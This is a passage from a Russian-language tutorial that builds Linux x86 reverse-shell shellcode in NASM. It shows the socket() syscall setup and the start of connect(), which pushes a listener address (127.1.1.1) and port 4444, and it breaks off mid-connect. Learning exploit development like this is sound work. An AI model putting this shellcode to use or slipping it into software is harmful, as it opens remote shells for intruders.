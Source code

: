 Основываясь на этой информации, можно загрузить различные аргументы (socket_family, socket_type, protocol) в стек после очистки регистра `edx`:       
```nasm
xor  edx, edx    ; обнуляем edx

; int socket(int domain, int type, int protocol);
push edx         ; protocol = IPPROTO_IP (0x0)
push ebx         ; socket_type = SOCK_STREAM (0x1)
push 0x2         ; socket_family = AF_INET (0x2)
```

Так как `ecx` должен содержать указатель на эту структуру, копируем `esp`:        
```nasm
mov  ecx, esp    ; перемещаем указатель стека в ecx
```

И наконец выполняем системный вызов:           
```nasm
int  0x80        ; системный вызов (exec sys_socket)
```

Этот вызов возвращает файловый дескриптор сокета в `eax`.          

В итоге:
```nasm
xchg edx, eax    ; сохраняем результат (sockfd) для дальнейшего использования
```

### подключение к указанному IP и порту       

Сначала снова нужен стандартный системный вызов socketcall в `al`:       
```nasm
; int socketcall(int call, unsigned long *args);
mov  al, 0x66    ; socketcall 102
```

Теперь рассмотрим аргументы функции `connect()`, и самый интересный аргумент - это структура `sockaddr`:
```cpp
struct sockaddr_in {
   __kernel_sa_family_t  sin_family;   /* Семейство адресов    */
  __be16                 sin_port;     /* Номер порта          */
  struct in_addr         sin_addr;     /* IP-адрес             */
};
```

Теперь нужно расположить аргументы в правильном порядке. Сначала `sin_addr`, затем `sin_port` и последним `sin_family` (помним: порядок обратный!):     
```nasm
; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
push 0x0101017f  ; sin_addr = 127.1.1.1 (сетевой порядок байтов)
push word 0x5c11 ; sin_port = 4444
```

![push IP port](./images/14/2021-10-16_13-05.png){width="80%"}       
